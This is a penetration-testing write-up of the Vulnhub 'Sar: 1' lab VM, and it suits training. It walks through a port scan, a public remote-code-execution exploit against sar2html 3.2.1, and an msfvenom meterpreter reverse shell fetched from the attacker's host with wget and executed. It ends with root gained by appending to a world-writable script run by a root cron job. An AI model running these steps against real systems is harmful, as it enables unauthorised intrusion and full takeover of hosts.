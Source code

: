 ```yaml
---
layout: post
title: 'Vulnhub - Sar: 1'
disass:
  - url: /assets/img/vh-sar1/sar1-1.png
    image_path: /assets/img/vh-sar1/sar1-1.png
    title: sar1-1
categories:
  - vulnhub
slug: vulnhub-sar-1
tags:
  - linux
  - cve
  - cron
---
```


## Challenge description

[https://www.vulnhub.com/entry/sar-1,425/](https://www.vulnhub.com/entry/sar-1,425/)

> _Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing._

## Reconnaissance / Enumeration

### Port scanning and service identification

We start by scanning the ports on this machine. We have only one open port

```
$ rustscan -a x.x.x.x -r 1-65535 -- -A -sC

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
```

### Web Enumeration

The web service show the default apache page at the root. Let's do some enumeration to try and find more.

We start with /robots.txt :

```
sar2HTML
```

Which leads us to a page which seem to be a web application named sar2html v3.2.1

![sar2html](/assets/img/vh-sar1/sar1-1.png "sar2html")

Let's find out if it's vulnerable :

```
$ searchsploit sar2html
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                               | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                   | php/webapps/47204.txt
---------------------------------------------------------------------------- ---------------------------------
```

It looks like we can get RCE through this web application

## Exploitation

exploitdb points us to an exploit so let's try it out :

```
$ cp /usr/share/exploitdb/exploits/php/webapps/49344.py .
$ python3 49344.py
Enter The url => http://1.1.1.1/sar2HTML
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command =>
```

Having an RCE exploit in hands, the next step is to establish a foothold on the target

## Foothold

- First we create a meterpreter payload which we serve with python's http.server

  ```
  $ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f elf -o mp
  $ python3 -m http.server
  ```

- Then we start our metasploit listener

  ```
  $ msfconsole
  msf6 > use multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set LHOST eth0
  LHOST => eth0
  msf6 exploit(multi/handler) > set LPORT 4444
  LPORT => 4444
  msf6 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 1.1.1.1:4444
  ```

- Now we can download and execute the payload on the target through RCE exploit command line

  ```
  Command => wget 1.1.1.1:8000/mp -O /tmp/mp && chmod 777 /tmp/mp && /tmp/mp &&
  ```

- Stabilize our new shell :

  ```
  [*] Sending stage (3012548 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41106 ) at 2022-01-13 05:20:53 +0000
  meterpreter > shell
  python3 -c "import pty;pty.spawn('/bin/bash')"
  export TERM=xterm
  export SHELL=bash
  export TERM=xterm-256color
  stty rows 91 columns 190
  www-data@sar:~/html/sar2HTML$ id
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data
  ```

We have foothold on the target as www-data

## Privilege Escalation

Now it's time to escalate our privileges

There is a crontab that runs as root every 5 minutes :

```
$ cat /etc/crontab
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh

$ ls -l /var/www/html
total 32
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Jan 13 10:49 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Oct 21  2019 write.sh

$ cat /var/www/html/finally.sh
#!/bin/sh

./write.sh

$ cat /var/www/html/write.sh
#!/bin/sh

touch /tmp/gateway
```

We dont have write permission on the job's script but we do on the second script, write.sh. Let's exploit this misconfiguration :

```
$ echo 'chmod +s /bin/bash' >> /var/www/html/write.sh
$ cat write.sh
#!/bin/sh

touch /tmp/gateway
chmod +s /bin/bash
```

Wait for it ...

```
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  7  2019 /bin/bash
```

/bin/bash now has the setuid bit so we can use it to escalate to root :

```
$ /bin/bash -p
bash-4.4# id && hostname
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
sar
```

Thanks for reading <3

h3x
